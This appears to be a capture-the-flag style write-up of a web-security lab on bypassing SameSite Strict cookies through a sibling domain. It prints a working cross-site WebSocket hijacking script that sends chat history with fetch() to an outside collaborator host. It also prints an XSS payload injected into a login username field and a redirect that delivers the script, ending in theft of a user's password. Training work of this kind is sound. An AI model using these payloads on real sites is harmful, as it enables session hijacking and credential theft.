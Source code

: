 # Lab: SameSite Strict bypass via sibling domain

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/40b4a795-6858-4e99-ad9f-18cbcb468ab2)

## Solution

The given website has live chat feature.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/dfa634f8-c044-43ec-abf7-117cd61d626b)

The chat is requested usin a get method and don't have any unpredictable tokens like csrf.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/da9608d3-d34a-4eb8-9572-46a91e6d4718)

In websocket history we can see the client sends a `READY` message to server before starting or fetching the chat history.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/8359aef0-72d5-481e-afa9-6c4ff7a05e6d)

Go to burp collaborator and click `Copy to clipboard`.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/272ee3c9-2f3a-4294-ba7f-d8ea85f3ad08)

Enter the following script in the body section of the exploit server and click on **Store** and **View exploit**.

```Javascript
<script>
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/a18a706d-d495-4c2e-a2b7-680716f8bcf1)

In collaborator we can see a new chat session has begun.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/da85970e-bc00-4efe-8bf9-db063ee737d3)

The new chat session that started has `SameSite` attribute set to `strict`.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/6ebcada9-1772-47b4-960a-8e2a802950df)

If we furthur inspect the webpage, responses to requests for resources like script and image files contain an `Access-Control-Allow-Origin` header, which reveals a sibling domain at `cms-YOUR-LAB-ID.web-security-academy.net`.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/38f0e057-7bdd-42a9-89ab-464722c816da)

When going to the sibling domain we are present with a login page.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/7cae74b2-caa3-41aa-bfaf-2e6b97af15e0)

Check to see if the login page has a XSS vulnerability by giving username as `<script>alert(420)</script>` which is proven to be true.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/9c0e41d3-32b4-4141-9747-8dd94dc3402f)

URL encode the Javascript script used in exploit server and url encode it using **burp decoder**.
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/9e75417d-26b3-4e6c-9ece-cd4ceaf101f6)

Use the following script in body of the exploit server and deliver it to victim.

```javaScript
<script>
    document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
</script>
```

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/fdcb7bd5-56da-4cf9-aafa-82401eab7e2d)

We recieve a number of new HTTP interactions in collaborator. On inspecting one of them has password for user `carlos`

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/56c861f1-e7f4-4d24-9a38-ef3537876edf)

Use the password from above and username as `carlos` to login as carlos and finish the lab.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/8115cf58-8173-462d-a132-f91a0116cd91)
